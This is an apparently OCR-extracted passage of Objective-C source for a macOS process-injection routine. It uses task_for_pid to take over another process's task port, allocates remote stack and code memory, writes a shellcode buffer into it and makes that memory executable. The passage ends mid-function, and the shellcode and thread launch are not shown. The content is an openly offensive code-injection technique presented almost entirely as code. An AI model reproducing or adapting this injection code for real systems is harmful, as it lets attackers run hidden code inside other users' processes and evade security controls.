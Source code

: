 ```objectivec


int inject(pid_t pid){

task_t remoteTask;

// Get access to the task port of the process we want to inject into
kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
if (kr != KERN_SUCCESS) {
fprintf (stderr, "Unable to call task_for_pid on pid %d: %d. Cannot continue!\n",pid, kr);
return (-1);
}
else{
printf("Gathered privileges over the task port of process: %d\n", pid);
}

// Allocate memory for the stack
mach_vm_address_t remoteStack64 = (vm_address_t) NULL;
mach_vm_address_t remoteCode64 = (vm_address_t) NULL;
kr = mach_vm_allocate(remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to allocate memory for remote stack in thread: Error %s\n", mach_error_string(kr));
return (-2);
}
else
{

fprintf (stderr, "Allocated remote stack @0x%llx\n", remoteStack64);
}

// Allocate memory for the code
remoteCode64 = (vm_address_t) NULL;
kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to allocate memory for remote code in thread: Error %s\n", mach_error_string(kr));
return (-2);
}


// Write the shellcode to the allocated memory
kr = mach_vm_write(remoteTask,                   // Task port
remoteCode64,                 // Virtual Address (Destination)
(vm_address_t) injectedCode,  // Source
0xa9);                       // Length of the source


if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to write remote thread memory: Error %s\n", mach_error_string(kr));
return (-3);
}


// Set the permissions on the allocated code memory
kr  = vm_protect(remoteTask, remoteCode64, 0x70, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

if (kr != KERN_SUCCESS)
```